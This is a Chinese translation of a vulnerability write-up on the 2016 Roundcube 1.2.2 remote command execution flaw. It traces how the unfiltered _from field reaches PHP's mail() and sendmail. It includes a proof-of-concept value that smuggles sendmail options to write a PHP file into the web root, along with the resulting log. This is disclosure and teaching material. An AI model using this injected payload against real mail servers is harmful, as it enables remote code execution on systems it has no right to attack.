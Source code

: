 > 原文链接: https://www.anquanke.com//post/id/85079 


# 【技术分享】Roundcube1.2.2通过email的命令执行漏洞分析


                                阅读量   
                                **141889**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：blog.ripstech.com
                                <br>原文地址：[https://blog.ripstech.com/2016/roundcube-command-execution-via-email/](https://blog.ripstech.com/2016/roundcube-command-execution-via-email/)

译文仅供参考，具体内容表达以及含义原文为准

**[![](https://p4.ssl.qhimg.com/t01c867d7f42b0dc0f2.png)](https://p4.ssl.qhimg.com/t01c867d7f42b0dc0f2.png)**

**<br>**

****

翻译：[sinensis](http://bobao.360.cn/member/contribute?uid=2642794559)

预估稿费：150RMB（不服你也来投稿啊！）

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿

<br>

**前言**

Roundcube是一款开源的网页版收发邮件的软件，它分布很广泛，全球很多组织和公司都在使用。从ScourceForge的镜像来看，过去1年内它有26万的下载量，这还只是实际用户中的一小部分。只要Roundcube在服务器上安装成功，已授权用户的浏览器上就会有一个Roundcube的网页页面，用来收发邮件。

这篇文章我们要展示下一个恶意用户如何在Roundcube 1.2.2版（&gt;= 1.0）写封邮件，就可以远程实现任意命令执行。这个漏洞非常危险，它会影响到所有的默认配置安装。我们强烈建议所有的管理员尽快地将Roundcube更新到最新版本1.2.3。

[![](https://p5.ssl.qhimg.com/t018a641efa6b94cf5c.png)](https://p5.ssl.qhimg.com/t018a641efa6b94cf5c.png)

RIPS只用了25秒就对整个应用有了全面的分析，上图是检测出来的安全漏洞。虽然上图看似列出了很多问题，但大部分问题都不严重，它们可能是安装模块的一部分或是死的遗留代码。但是我们还是建议把这些漏洞修复好，移除遗留代码，避免以后出现安全问题，我们之前的文章有提到类似问题。

<br>

**漏洞条件**

1. Roundcube配置的时候必须允许使用mail()函数(如果没有SMTP未指定，默认开启)

2. PHP的main()函数配置的时候使用sendmail(默认开启）

3. PHP的配置文件中设置safe_mode为off（默认开启）

4. 攻击者需要知道网站的绝对路径

上面四个条件一般来说很容易就可以达成，也就是说网络上很多这样的系统都存在漏洞。

<br>

**漏洞描述**

在Roundcube的1.2.2或者更早的版本，用户的输入未过滤进入到了mail()函数，作为第五个参数然后导致RCE，在这篇文档里将其列为紧急安全等级。问题的根本是因为main()函数会导致PHP调用sendmail。sendmail提供了-X选项来保存所有的邮箱日志到文件，攻击者可以利用这个函数在网站的根目录下生成恶意PHP文件。虽然这个漏洞利用起来比较苛刻，但是RIPS在几秒之内就检测了出来，下面的代码可以触发漏洞：

```
program/steps/mail/sendmail.inc
$from = rcube_utils::get_input_value(’_from’, rcube_utils::INPUT_POST, true, $message_charset);
$sent = $RCMAIL-&gt;deliver_message($MAIL_MIME, $from, $mailto,$smtp_error, $mailbody_file, $smtp_opts);
```

在上面代码里面，deliver_messae()函数获取POST参数_from，赋值给$from作为其第二个参数。

```
program/lib/Roundcube/rcube.php
public function deliver_message(&amp;$message, $from, $mailto, &amp;$error, &amp;$body_file = null, $options = null) `{`
    
    if (filter_var(ini_get(‘safe_mode’), FILTER_VALIDATE_BOOLEAN))
        $sent = mail($to, $subject, $msg_body, $header_str);
    else
       $sent = mail($to, $subject, $msg_body, $header_str, “-f$from”);
```

跟进deliver_message函数，$from参数进入mail()函数处理，通过使用-f参数获取from来传递给sendmail。

<br>

**不充分的变量检查**

有趣的部分是from参数在此之前经过了正则过滤。正常来说，$from参数内是不可以使用空格，不然可能导致在-f之后添加其他的参数。

使用$IFS或者`符号都不能绕过。但是，中间有一个逻辑流程可以导致过滤失败。



```
program/steps/mail/sendmail.inc
104 else if ($from_string = rcmail_email_input_format($from)) `{`
105   if (preg_match(‘/(S+@S+)/‘, $from_string, $m))
106        $from = trim($m1, ‘&lt;&gt;‘);
107    else
108        $from = null;
109   `}`
```

在105行，用户可以控制的$from参数过滤之后传递给email，但是这个过滤仅仅在rcmail_email_input_format()为TRUE的时候才会有效。

下面我们来看看如何绕过：

```
program/steps/mail/sendmail.inc
function rcmail_email_input_format($mailto, $count=false, $check=true)
`{`
    global $RCMAIL, $EMAIL_FORMAT_ERROR, $RECIPIENT_COUNT;
    // simplified email regexp, supporting quoted local part
    $email_regexp = ‘(S+|(”[^“]+”))@S+‘;
    ⋮
    // replace new lines and strip ending ‘, ‘, make address input more valid
    $mailto = trim(preg_replace($regexp, $replace, $mailto));
    $items  = rcube_utils::explode_quoted_string($delim, $mailto);
    $result = array();
    foreach ($items as $item) `{`
        $item = trim($item);
        // address in brackets without name (do nothing)
863        if (preg_match(‘/^&lt;‘.$email_regexp.‘&gt;$/’, $item)) `{`
            $item     = rcube_utils::idn_to_ascii(trim($item, ‘&lt;&gt;‘));
            $result[] = $item;
        `}`
        ⋮
        else if (trim($item)) `{`
            continue;
        `}`
        ⋮
    `}`
    if ($count) `{`
        $RECIPIENT_COUNT += count($result);
    `}`
    return implode(‘, ‘, $result);
`}`
```

rcmail_email_input_format这个函数在863行使用另外一个正则表达式，在匹配email的时候，行末匹配符$已经决定了要匹配的内容。

攻击者的payload不必匹配这个正则，然后在foreach循环之后$result参数仍然是空。在这种情况下，876行的implode()函数会返回一个空的字符串(这样整个函数就会返回FALSE)，于是绕过了过滤。

<br>

**漏洞POC**

当使用Roundcube发送email的时候，截断HTTP请求，修改_from字段：



```
example@example.com -OQueueDirectory=/tmp -X/var/www/html/rce.php
```

上述代码会导致攻击者在网站根目录下生成一个rce.php文件，里面的内容就是_subject的值。请求完成之后，如下的内容就会写入到文件里面：

```
04731 &gt;&gt;&gt; Recipient names must be specified
04731 &lt;&lt;&lt; To: squinty@localhost
04731 &lt;&lt;&lt; Subject: &lt;?php phpinfo(); ?&gt;
04731 &lt;&lt;&lt; X-PHP-Originating-Script: 1000:rcube.php
04731 &lt;&lt;&lt; MIME-Version: 1.0
04731 &lt;&lt;&lt; Content-Type: text/plain; charset=US-ASCII;
04731 &lt;&lt;&lt;  format=flowed
04731 &lt;&lt;&lt; Content-Transfer-Encoding: 7bit
04731 &lt;&lt;&lt; Date: So, 20 Nov 2016 04:02:52 +0100
04731 &lt;&lt;&lt; From: example@example.com -OQueueDirectory=/tmp
04731 &lt;&lt;&lt;  -X/var/www/html/rce.php
04731 &lt;&lt;&lt; Message-ID: &lt;390a0c6379024872a7f0310cdea24900@localhost&gt;
04731 &lt;&lt;&lt; X-Sender: example@example.com -OQueueDirectory=/tmp
04731 &lt;&lt;&lt;  -X/var/www/html/rce.php
04731 &lt;&lt;&lt; User-Agent: Roundcube Webmail/1.2.2
04731 &lt;&lt;&lt; 
04731 &lt;&lt;&lt; Funny e-mail message
04731 &lt;&lt;&lt; [EOF]
```

email的数据解码之后，传递的subject参数会解码为纯文本，然后PHP就会执行其中包含PHP标签的代码。(上面的文本就解析&lt;?php phpinfo() ?&gt;，类似LFI的日志包含）

<br>

**时间线**

**日期**            ** 内容**

2016/11/21  第一次联系软件作者

2016/11/22  作者在Github上修复了bug

2016/11/28  作者同意披露这个漏洞

2016/11/28  软件作者更新了最新Roundcube版本1.2.3



**总结**

Roundcube 1.2.2本身的设计已经可以抵御大部分攻击，同时一大批社区也在一起努力加固软件的安全性。但是像这种比较偏冷门的漏洞还是存在。如果使用自动化测试，不仅仅可以发现这种冷门的漏洞，而且节省了工程师的时间，把更多的精力放在开发更安全的程序上。
